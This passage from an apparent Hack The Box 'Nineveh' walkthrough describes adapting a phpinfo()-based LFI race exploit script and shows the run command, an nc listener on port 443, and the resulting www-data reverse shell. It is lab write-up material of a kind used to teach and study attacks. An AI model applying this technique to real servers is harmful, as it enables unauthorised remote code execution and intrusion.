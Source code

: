 

I made the following changes:

-   Changed the payload so that it will return a reverse shell to the ip
    and port specified above.
-   Changed the POST path in `REQ1` to `/info.php` rather than
    `/phpinfo.php` to match Nineveh.
-   Changed the POST path in `LFIREQ` to the Nineveh LFI.
-   Added a `PHPSESSID` cookie to the `LFIREQ` so that I could access
    the LFI.

The other thing I had to change was two places in the code where it
looks in a response for `[tmp_name] =>`. PHP now HTML encodes that to
`[tmp_name] =&gt;`, so I need to fix that. Interestingly enough, in the
paper it also has the encoded version, so it might just be an error in
the script.

### Shell

With those changes in place, I can run the script with a `nc` listener
waiting:



    root@kali# python phpinfolfi.py 10.10.10.43 80 100
    LFI With PHPInfo()
    -=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
    Getting initial offset... found [tmp_name] at 125163
    Spawning worker pool (100)...
     101 /  1000



It froze at that point, with a shell on `nc`:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.43.
    Ncat: Connection from 10.10.10.43:43916.
    bash: cannot set terminal process group (1387): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@nineveh:/var/www.md/department$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



## Priv: www-data --\> amrois

### Enumeration

Without much to find on this box, I turned back to the clues I already
had, specifically, the `/secure_notes` directory that just output an
image, and the note from the logged in page that said to check the
secret folder to get in, and this was a challenge.
